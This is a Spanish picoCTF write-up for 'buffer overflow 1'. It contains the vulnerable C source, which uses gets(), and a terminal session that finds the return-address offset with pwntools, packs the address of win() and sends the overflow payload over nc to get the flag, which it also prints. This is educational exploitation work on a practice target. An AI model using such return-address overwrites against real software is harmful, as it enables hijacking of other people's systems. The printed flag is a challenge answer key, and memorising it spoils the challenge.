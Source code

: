 # buffer overflow 1

## Descripción
Controla la dirección de retorno
¡Ahora estamos cocinando! Puede desbordar el búfer y volver a la función de bandera en el [programa](https://artifacts.picoctf.net/c/185/vuln).
Puede ver la fuente [aquí](https://artifacts.picoctf.net/c/185/vuln.c). Y conéctate con ella usando `nc saturn.picoctf.net 52620`

## Pistas
- Asegúrate de que tienes en cuenta el big Endian frente al small Endian
- Cambiar la dirección del puntero de retorno puede llamar a diferentes funciones

## Solución
```bash
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ python3       
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> exit()
                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ python3
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic_find(0x6161616c)
44
>>> 'F'*44
'FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF'
>>> exit()
                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ objdump -D vuln -M intel | grep 'win'
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ python3
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
>>> exit()
                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow1]
└─$ echo 'FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF\xf6\x91\x04\x08' | nc saturn.picoctf.net 50427
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f} 
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| gets | Introducción de caracteres y cadenas |

>[!bug]
>**gets**
>Nunca utilice gets(). Debido a que es imposible saber sin conocer los datos de antemano cuántos caracteres leerá gets(), y debido a que gets() continuará almacenando caracteres más allá del final del buffer, su uso es extremadamente peligroso. Se ha utilizado para romper la seguridad informática. Utilice fgets() en su lugar.

>[!danger]
>**Buffer Overflow Attack**
>Los atacantes aprovechan los problemas de desbordamiento de búfer sobrescribiendo la memoria de una aplicación. Esto cambia la ruta de ejecución del programa, desencadenando una respuesta que daña archivos o expone información privada.

## Referencias
[gets(3) - Linux man page](https://linux.die.net/man/3/gets)
[Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
